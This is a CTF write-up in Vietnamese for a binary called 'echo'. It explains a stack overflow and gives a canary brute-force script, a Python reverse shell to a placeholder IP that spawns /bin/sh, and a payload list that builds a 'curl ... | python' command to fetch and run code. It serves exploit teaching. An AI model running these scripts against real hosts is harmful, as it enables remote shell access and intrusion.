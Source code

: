 Đề cho t file **echo**</br>
![image](https://user-images.githubusercontent.com/23306492/40347441-7fa99dfe-5dca-11e8-9556-106b67a58c2d.png)</br>
 **enable** NX, canary</br>
![image](https://user-images.githubusercontent.com/23306492/40347475-a6df330c-5dca-11e8-9b4f-5e6e69d98fb8.png)</br>
Chương trình có 2 function chính : `fun()` nhập số luckynumber và `echo` nhâp  echo</br>
![image](https://user-images.githubusercontent.com/23306492/40347624-223ecf3a-5dcb-11e8-89f5-c7f42d267a8e.png)</br>
Trong hàm fun() `luckynumber = 0x0804B098`</br>
![image](https://user-images.githubusercontent.com/23306492/40347543-e06027f8-5dca-11e8-9330-e32dedb0bfdb.png)</br>
Trong hàm `echo()` </br> có lỗi stack overflow `n = recv(fd, &buf, 0x11Cu, 0);`. Vì buf nằm ở ebp-0x10c mà ta đọc tới 0x11c bytes lên buf</br>
![33085437_1701128753336171_1744560662744399872_n](https://user-images.githubusercontent.com/23306492/40372478-fb230364-5e0e-11e8-858f-5b8952d5237b.png)
</br>
Trước tiên thì ta cần `leak canary` sử dụng brute force. Tương tự như write up **codegate-prequels 2017 babypwn** [link](https://github.com/VulnHub/ctf-writeups/blob/master/2017/codegate-prequels/babypwn.md)
```
def leak_canary():
	canary = ""
	canary_offset = 0x100
	guess = 0x0
	buf = ""
	buf += "A" * canary_offset
	buf += canary
	while len(canary) < 4:
		while guess != 0xff:
			try:
				r = remote("localhost",12345)
				context.log_level = "critical"
				r.recvuntil("number: ")
				r.sendline(str(12345))
				r.recvuntil("Enter what you want to echo: ")
				r.send(buf + chr(guess))
				r.recvuntil("Bye bye!")
				print "Guessed correct byte:", format(guess, '02x')
				canary += chr(guess)
				buf += chr(guess)
				guess = 0x0
				r.close()
				break
			except EOFError,e:
				guess += 1
	return canary
```
![image](https://user-images.githubusercontent.com/23306492/40347714-6a405a24-5dcb-11e8-81db-a46cf987896a.png)</br>
Với bài này thì ta sử dụng system 4 byte để exploit. Tương tự như bài [babyfirst-revenge-v2 hitcon 2017](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py) và  [Reverse Shell python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)</br>
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xxx.xxx.xxx.xxx",31337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
```
payload = [
# generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',
    # generate "curl xxx.xxx.xxx.xxx|python;"
    '>\;\\', 
    '>on\\', 
    '>th\\', 
    '>py\\', 
    '>\|\\', 
    '>xx\\', 
    '>x\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # got shell
    'sh x', 
    'sh g', 
]
```
[PAYLOAD](https://github.com/k4k4/SEATHON/blob/master/echo/echo.py)</br>
![echo](https://user-images.githubusercontent.com/23306492/40348447-f1fff918-5dcd-11e8-87e3-a77bbd71d930.png)
